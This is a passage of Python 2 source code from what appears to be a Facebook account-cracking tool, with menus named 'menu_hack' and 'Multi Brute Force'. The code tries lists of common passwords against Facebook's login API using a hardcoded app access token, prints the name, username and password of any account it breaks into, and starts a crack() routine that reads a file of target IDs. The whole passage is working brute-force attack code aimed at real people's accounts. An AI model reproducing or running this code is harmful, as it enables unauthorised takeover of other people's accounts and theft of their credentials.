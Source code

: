 												if 'access_token' in y:
													print "\033[1;91m[+] \033[1;92mFound"
													print "\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mName\033[1;97m     : "+a['name']
													print "\033[1;91m[➹] \033[1;92mUsername\033[1;97m : "+id
													print "\033[1;91m[➹] \033[1;92mPassword\033[1;97m : "+pz6
													raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
													menu_hack()
												else:
													if 'www.facebook.com' in y["error_msg"]:
														print "\033[1;91m[+] \033[1;92mFound"
														print "\033[1;91m[!] \033[1;93mAccount Checkpoint"
														print "\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mName\033[1;97m     : "+a['name']
														print "\033[1;91m[➹] \033[1;92mUsername\033[1;97m : "+id
														print "\033[1;91m[➹] \033[1;92mPassword\033[1;97m : "+pz6
														raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
														menu_hack()
													else:
														pz7 = "@@@###, aantor@@11@@00, bd71ff, 1234567890, 123456, 009988, @#৳@#৳, 123321, 001122, 223344"
														data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(id)+"&locale=en_US&password="+(pz7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
														y = json.load(data)
														if 'access_token' in y:
															print "\033[1;91m[+] \033[1;92mFound"
															print "\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mName\033[1;97m     : "+a['name']
															print "\033[1;91m[➹] \033[1;92mUsername\033[1;97m : "+id
															print "\033[1;91m[➹] \033[1;92mPassword\033[1;97m : "+pz7
															raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
															menu_hack()
														else:
															if 'www.facebook.com' in y["error_msg"]:
																print "\033[1;91m[+] \033[1;92mFound"
																print "\033[1;91m[!] \033[1;93mAccount Checkpoint"
																print "\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mName\033[1;97m     : "+a['name']
																print "\033[1;91m[➹] \033[1;92mUsername\033[1;97m : "+id
																print "\033[1;91m[➹] \033[1;92mPassword\033[1;97m : "+pz6
																raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
																menu_hack()
															else:
																print "\033[1;91m[!] Sorry, exit to open the target password :("
																print "\033[1;91m[!] try it another way."
																raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
																menu_hack()
	except KeyError:
		print "\033[1;91m[!] Terget not found"
		raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
		menu_hack()


##### Multi Brute Force #####
##### CRACK ####
def crack():
	global idlist,passw,file
	os.system('clear')
	try:
		fb_token=open('login.txt','r').read()
	except IOError:
		print"\033[1;91m[!] Token not found"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	os.system('clear')
	print logo
	idlist = raw_input('\033[1;91m[+] \033[1;92mFile ID  \033[1;91m: \033[1;97m')